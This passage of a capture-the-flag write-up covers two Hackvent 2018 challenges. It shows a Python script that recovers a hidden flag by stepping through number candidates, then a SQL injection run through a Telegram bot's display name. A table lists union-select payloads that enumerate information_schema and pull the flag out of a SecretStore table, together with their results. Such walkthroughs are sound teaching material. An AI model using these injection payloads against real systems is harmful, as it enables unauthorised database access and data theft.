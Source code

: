     for i in range(2000):
    
        ai = hex(a + (i*p)).lstrip("0x")
        try:
            out = str(ai).decode("hex")
            if 'HV18-' in out:
                print("[+] Found (potential) solution:")
                print("   {}".format(out))
                print("[+] solution = a + {}*p".format(i))
        except TypeError:
            pass
    
    
    
    root@kali# python crack.py
    [+] Found base a: 31203092237148810178812127507761703323636375061497699755717548622982799
    [*] Trying a + ip...
    [+] Found (potential) solution:
       HV18-xLvY-TeNT-YgEh-wBuL-bFfz
    [+] solution = a + 1337*p
    

**Flag: HV18-xLvY-TeNT-YgEh-wBuL-bFfz**

## Day 12

### Challenge

![1545307641505](https://0xdfimages.gitlab.io/img/1545307641505.png)

If I log into Telegram and check out this bot, I see:

![](https://0xdfimages.gitlab.io/img/1544630464495.png)

### Solution

After a lot of playing around with various commands, eventually I came to try
changing my display name:

![](https://0xdfimages.gitlab.io/img/hackvent2018-telegram-sql-poc.gif)

From there, I’ll start to build out different SQL Injections:

First Name | Last Name | Result  
---|---|---  
’ union select 1,@@version; # | df | 1 - 5.7.20  
’ union select table_name,1 from information_schema.tables; # | df | CHARACTER_SETS - 1  
…[snip]…INNODB_SYS_FOREIGN - 1  
INNODB_SYS_TABLESTATS - 1  
SecretStore - 1 <—– this is interesting  
User - 1  
Wish - 1  
  
’ union SELECT table_name, column_name FROM information_schema.columns; # | df | error  
`’ UNION SELECT table_name,column_name FROM | information_schema.columns WHERE table_name = ‘SecretStore’;# – | SecretStore - flag  
’ union SELECT flag,1 from SecretStore; # – | df | HV18-M4k3-S0m3-R34L-N1c3-W15h - 1  
  